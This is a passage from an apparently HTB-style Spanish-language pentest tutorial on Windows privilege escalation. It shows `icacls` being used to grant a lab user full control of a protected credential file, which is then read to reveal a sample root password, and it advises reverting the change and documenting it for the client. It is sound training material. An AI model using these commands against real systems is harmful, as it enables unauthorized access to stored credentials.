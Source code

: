 ### Modifying the File ACL

Es posible que aún no podamos leer el archivo y necesitemos modificar el ACL del archivo usando `icacls` para poder leerlo.

```r
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

cat : Access to the path 'C:\Department Shares\Private\IT\cred.txt' is denied.
At line:1 char:1
+ cat 'C:\Department Shares\Private\IT\cred.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Department Shares\Private\IT\cred.txt:String) [Get-Content], Unaut
   horizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

Vamos a otorgar a nuestro usuario todos los privilegios sobre el archivo objetivo.

```r
PS C:\htb> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```

### Reading the File

Si todo salió según lo planeado, ahora podemos leer el archivo objetivo desde la línea de comandos, abrirlo si tenemos acceso a RDP, o copiarlo a nuestro sistema de ataque para un procesamiento adicional (como descifrar la contraseña de una base de datos KeePass).

```r
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

NIX01 admin
 
root:n1X_p0wer_us3er!
```

Después de realizar estos cambios, querríamos hacer todo lo posible para revertir los permisos/la propiedad del archivo. Si no podemos por alguna razón, debemos alertar a nuestro cliente y documentar cuidadosamente las modificaciones en un apéndice de nuestro informe de entrega. Nuevamente, aprovechar este permiso puede considerarse una acción destructiva y debe realizarse con mucho cuidado. Algunos clientes pueden preferir que documentemos la capacidad de realizar la acción como evidencia de una mala configuración, pero no aprovechar completamente el fallo debido al posible impacto.

---

## When to Use?

### Files of Interest
